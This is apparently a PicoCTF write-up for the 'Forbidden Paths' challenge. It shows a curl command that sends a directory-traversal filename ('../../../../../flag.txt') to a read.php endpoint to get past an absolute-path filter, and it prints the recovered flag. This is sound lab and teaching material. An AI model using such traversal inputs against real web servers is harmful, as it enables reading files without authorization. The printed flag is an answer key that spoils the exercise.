


# Forbidden Paths #

This is the write-up for the challenge "Forbidden Paths" challenge in PicoCTF

## The challenge ##

### Description ###
you can find the challenge [here](https://play.picoctf.org/practice/challenge/270)  
the challeges says:  
> Can you get the flag?  
> We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?  

 

## How I Solve The Challege ##
In the website there are only a path input.  
  
on inspection I see nothing wrong with the website, the form just send a POST request to the `/read.php` page.  
for example we can send the next request:  
```console
$: curl http://saturn.picoctf.net:<port>/"filename=read.php"
```
after tring and failed to get the `/flag.txt` file (we know that "the website is filtering absolute file paths." from the description of the files) we ttried to get the `../../../../flag.txt` we successfuly see the data data, with regex we found the key:

```console
#: curl http://saturn.picoctf.net:55736/read.php -X POST -F "filename=../../../../../flag.txt" -s | grep -Eo picoCTF{.*?}
picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}
```

Voila!!! 😎  
The flag is `picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}`  
Cheers 😄  

